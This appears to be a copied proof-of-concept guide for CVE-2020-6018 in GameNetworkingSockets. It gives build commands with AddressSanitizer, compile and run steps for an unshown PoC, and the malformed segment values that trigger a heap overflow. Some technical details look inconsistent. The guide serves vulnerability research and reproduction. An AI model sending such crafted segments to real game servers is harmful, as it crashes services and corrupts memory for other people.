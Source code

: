 # CVE-2020-6018

## Prerequisites
A 64-bit Linux environment (e.g., Ubuntu 20.04) with a vulnerable version of SteamNetworkingSockets (v1.1.x).

CMake, a modern C++ compiler (g++ ≥ 9), and AddressSanitizer for detecting the overflow. 
clang.llvm.org

SteamNetworkingSockets library source (v1.1.0) cloned from GitHub:

bash
Copy
Edit
git clone https://github.com/ValveSoftware/GameNetworkingSockets.git
cd GameNetworkingSockets
git checkout v1.1.0
research.checkpoint.com

## Setup
Build the library with AddressSanitizer

bash
Copy
Edit
mkdir build && cd build
cmake -DCMAKE_BUILD_TYPE=Debug \
      -DCMAKE_CXX_FLAGS="-fsanitize=address -g" \
      ..
make -j$(nproc)
sudo make install
This instruments the library so that overflows are caught at runtime 
clang.llvm.org
.

Prepare a vulnerable server
Start any game server that uses SteamNetworkingSockets (e.g., a local CS:GO dedicated server) on port 27036. Alternatively, write a minimal listener using the library’s demo code.

Building the PoC
Place the provided steam_sockets_poc.cpp next to your build directory, then compile:

bash
Copy
Edit
g++ -std=c++17 steam_sockets_poc.cpp \
    -lsteamnetworkingsockets -lprotobuf -pthread \
    -fsanitize=address -g \
    -o steam_sockets_poc
This links against the instrumented library and enables AddressSanitizer.

## Running the PoC
./steam_sockets_poc 127.0.0.1:27036
The PoC connects to the specified server, waits for the handshake, then crafts an “unreliable segment” with:

msgNum = 1

offset = -0x180

size = 0x400

lastSegment = true

It reinterprets the connection handle to call the internal SNP_ReceiveUnreliableSegment, triggering the underflow and crash 
research.checkpoint.com
.

Watch the console: AddressSanitizer should report a heap‐buffer‐overflow/free error.